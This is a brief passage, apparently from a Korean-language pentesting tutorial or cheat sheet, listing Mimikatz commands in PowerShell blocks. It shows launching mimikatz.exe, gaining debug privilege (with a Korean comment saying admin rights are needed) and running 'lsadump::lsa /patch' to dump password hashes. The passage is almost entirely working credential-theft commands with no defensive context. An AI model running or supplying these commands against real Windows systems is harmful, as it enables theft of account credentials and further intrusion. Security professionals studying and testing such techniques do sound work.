 
```powershell
./mimikatz.exe
```

```powershell
# 이렇게 하면 mimikatz를 관리자로 실행하고 있습니다. MimiKatz를 관리자로 실행하지 않으면 MimiKatz가 제대로 실행되지 않습니다
privilege::debug
```

```powershell title="Hash dump"
lsadump::lsa /patch
```

